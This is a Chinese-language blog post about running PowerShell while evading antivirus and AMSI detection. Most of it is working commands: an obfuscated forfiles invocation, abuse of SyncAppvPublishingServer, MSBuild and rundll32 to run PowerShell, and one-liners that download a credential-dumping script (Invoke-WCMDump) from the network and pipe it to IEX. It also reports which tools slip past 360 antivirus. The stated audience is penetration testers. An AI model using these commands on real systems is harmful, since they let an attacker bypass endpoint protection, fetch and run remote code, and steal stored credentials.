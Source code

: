\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12692559.html)

### 0x01 简介

Windows PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用 .NET Framework 的强大功能。由于 powershell 的特性，使得它很受渗透测试爱好者的喜爱，当然也催生了像 ASMI 之类的防御手段，当然各类杀软也是把它纳入了查杀行列中，只要你调用 PS 就会查杀，今天列举一些可以绕过其检测规则的一些姿势，主要可以粗略分为两大类，首先是绕过 AV 的检测规则，其次是换一个方式执行类似 PowerShell 的操作

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414083231553-1468059295.png)

### 0x02 绕过本地调用

#### 2.1 模糊搜索调用

```
forfiles /p %COMSPEC:~0,19% /s /c "@file -noe" /m po\*l.\*e


```

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414084844354-1663760454.png)

#### 2.2 编译命令程序

用 c++ 的 system 函数库去调用 (待完善)：

```
#include<stdio.h>
#include<stdlib.h>
int main(){
system("powershell");
return 0;
}


```

#### 2.3 SyncAppvPublishingServer

SyncAppvPublishingServer 是 win10 自带的服务，有 vbs 和 exe 两个版本，我们可以使用他们来做一些类似 PS 的操作

默认存放在 C:\\Windows\\System32 下面：

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414095248859-1239492508.png)

```
#弹计算器
C:\\Windows\\System32\\SyncAppvPublishingServer.vbs "Break; Start-Process Calc.exe ”

#访问端口
C:\\Windows\\System32\\SyncAppvPublishingServer.vbs "Break; iwr http://192.168.1.149:443"

#远程下载并执行powershell
C:\\Windows\\System32\\SyncAppvPublishingServer.exe \\" Break; (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1','$env:USERPROFILE/1.ps1'); Start-Process '$env:USERPROFILE/1.ps1' -WindowStyle Minimized;"

SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1') | IEX"



```

#### 2.4 调用 MSBuild

MSBuild 是. Net 框架中包含的工具，用于自动化创建软件产品的过程，包括编译源代码，打包，测试，部署和创建文档。Msbuild 依赖于. csproj 文件，该文件具有 XML 语法，包含了. NET 构建过程中的结果

github 上有此类项目：[https://github.com/Cn33liz/MSBuildShell.git](https://github.com/Cn33liz/MSBuildShell.git)

执行完之后会获得一个交互式的 PS：

```
C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\msbuild.exe C:\\Scripts\\MSBuildShell.csproj
C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\Scripts\\MSBuildShell.csproj


```

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414102510538-1854198848.png)

#### 2.5 调用 cscript

三好师傅：[http://www.mottoin.com/detail/1961.html](http://www.mottoin.com/detail/1961.html)

### 0x03 非 Powershell 执行

#### 3.1 PowerLine

PowerLine 是一款由 c# 编写的工具，支持本地命令行调用和远程调用，可以在不直接调用 PowerShell 的情况下调用 PowerShell 脚本

下载地址：[https://github.com/fullmetalcache/PowerLine](https://github.com/fullmetalcache/PowerLine)

首先拉取项目到本地，然后运行 build.bat 文件：

```
./build.bat


```

然后在 UserConf.xml 文件中填写你所需要调用的 powershell 脚本的地址，默认自带 powerup、powerview、Mimikatz 等，只要按照他给定的格式加入你的 ps 脚本地址即可：  
![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414104138444-1655777677.png)

加入完成以后，运行 PLBuilder.exe 进行构建，构建过程中，360 无提示。查看内置的脚本 PowerLine.exe -ShowScripts：

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414104312252-1052750333.png)

#### 3.2 PowerShdll

这个工具主要使用 dll 去运行 powershell 而不需要去连接 powershell.exe , 所以具有一定的 bypassAV 能力，当然它也可以在这几个程序下运行 rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe 或者使用作者给出的单独的 exe 进行执行

下载地址：[https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)

```
#exe版
PowerShdll -i   #进入到交互模式

#dll版  360可以查杀到
rundll32 PowerShdll.dll,main . { iwr -useb https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1 } ^| iex;


```

#### 3.3 Nopowershell

NoPowerShell 是用 C＃实现的工具，它支持执行类似 PowerShell 的命令，同时对任何 PowerShell 日志记录机制都不可见。同时也提供了 CS 下的 cna 脚本。

下载地址：[https://github.com/bitsadmin/nopowershell](https://github.com/bitsadmin/nopowershell)

```
./NoPowerShell.exe(过360)

rundll32 NoPowerShell64.dll(被查杀)


```

这里要注意一点的是，cs 的 cna 脚本默认调用 scripts 下的文件，国内的 cs 大多为 script 目录，自行修改文件内的目录即可。

### 参考链接

[无 powershell 运行 powershell 方法总结](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652852749&idx=1&sn=8dfd8ea7d745cca58be663a538ee4093&chksm=bd592ec08a2ea7d660db587f6f1dc9d531dd957b2a397065e393399334310724b5aaf93002c3&mpshare=1&scene=1&srcid=&sharer_sharetime=1575103078873&sharer_shareid=56e432b8d4e8d9494f05afd447beb50f&pass_ticket=m9r3c%2FmzdGu1FzhP89tOMO81nBdPEflt7YQXa38HylQ%3D#rd)  
[http://www.mottoin.com/detail/1961.html](http://www.mottoin.com/detail/1961.html)
